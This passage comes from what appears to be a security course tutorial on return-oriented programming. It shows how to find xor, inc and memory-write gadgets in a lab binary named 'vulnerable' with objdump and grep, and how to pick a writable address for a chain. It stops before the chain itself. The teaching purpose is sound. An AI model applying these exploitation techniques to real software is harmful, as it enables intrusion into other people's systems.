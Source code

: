 ``` example

 |  <next gadget >        |
 |   value for edi        |
 |   value for esi        |
 | <pop esi;pop edi; ret> |
```

## Building a useful chain

Let's look for a bit more useful gadgets:

``` example
objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 -B 1 xor
(...)
--
80b80d5:    5d                      pop    ebp
 80b80d6:   31 c0                   xor    eax,eax
 80b80d8:   c3                      ret   
```

This gadget will zero out eax and set the value of ebx! Or if we just
jump to the xor, simply zero out the value for eax. We also need a
gadget to increment the value in eax:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 -B 1 inc 
(...)
--
 805caec:   40                      inc    eax
 805caed:   5f                      pop    edi
 805caee:   c3                      ret    
```

And we need a gadget to write to memory based on a register, something
like `mov DWORD[edx],eax`

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 "DWORD PTR \[edx\],eax"
(...)
 809a70d:   89 02                   mov    DWORD PTR [edx],eax
 809a70f:   c3                      ret    
--
```

Now we have everything we need except a place to write too. For that we
can use any old place in the data segment. Turns out 0x080ea060 is
perfect for that.

## Write an "A\\0" to memory ROP chain

If we can find the *right* gadgets, then writing a ROP chain to just
write "A\\0" to a memory location is actually rather straight forward.
It should look something like this:
